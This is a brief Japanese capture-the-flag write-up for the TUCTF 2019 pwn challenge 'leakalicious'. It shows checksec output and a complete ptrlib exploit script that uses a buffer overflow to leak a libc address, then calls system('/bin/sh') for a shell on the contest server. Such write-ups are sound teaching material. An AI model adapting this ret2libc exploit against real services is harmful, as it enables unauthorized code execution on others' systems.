 # [pwn 492pts] leakalicious - TUCTF 2019
CanaryとRELROが無効です。
```
$ checksec -f leakalicious
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   72 Symbols     No       0               4       leakalicious
```
BOFがあります。3回できるので1回目でlibc leakします。libcが渡されていないのでlibcdbで探します。
```python
from ptrlib import *

libc = ELF("libc6_2.23-0ubuntu11_i386.so")
#sock = Process("./leakalicious")
sock = Socket("chal.tuctf.com", 30505)

payload = b'A' * 0x2c
sock.sendafter("> ", payload)
libc_base = u32(sock.recvline()[-6:-2]) - libc.symbol('__libc_start_main') - 0xf7
logger.info("libc = " + hex(libc_base))

sock.sendafter("> ", "hello")

payload = b'A' * 0x2c
payload += p32(libc_base + libc.symbol('system'))
payload += p32(0xdeadbeef)
payload += p32(libc_base + next(libc.find('/bin/sh')))
sock.sendafter("> ", payload)

sock.interactive()
```

# 感想
簡単ですね。